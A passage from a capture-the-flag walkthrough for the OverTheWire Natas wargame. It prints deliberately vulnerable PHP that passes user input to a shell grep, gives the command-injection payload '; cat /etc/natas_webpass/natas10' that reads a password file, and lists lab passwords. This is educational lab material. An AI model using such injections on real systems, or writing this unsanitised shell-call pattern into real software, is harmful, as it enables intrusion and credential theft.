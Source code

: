Now, if you enter the secret you should get the password for the next level :

```text
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

## Natas 09 Solution

**URL :** [http://natas9.natas.labs.overthewire.org](http://natas9.natas.labs.overthewire.org) <br/>
**Credentials :** *natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl*

In this level, we got the following PHP code :

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

By reading the code, we can tell that there is a potential command injection. 

So if we enter `; cat /etc/natas_webpass/natas10` in the search field, we will get the password. That's due to the fact that the `;` token separates commands in a shell.

```text
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

## Natas 10 Solution

**URL :** [http://natas10.natas.labs.overthewire.org](http://natas10.natas.labs.overthewire.org) <br/>
**Credentials :** *natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu*

In this level, we got the following PHP code :

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```
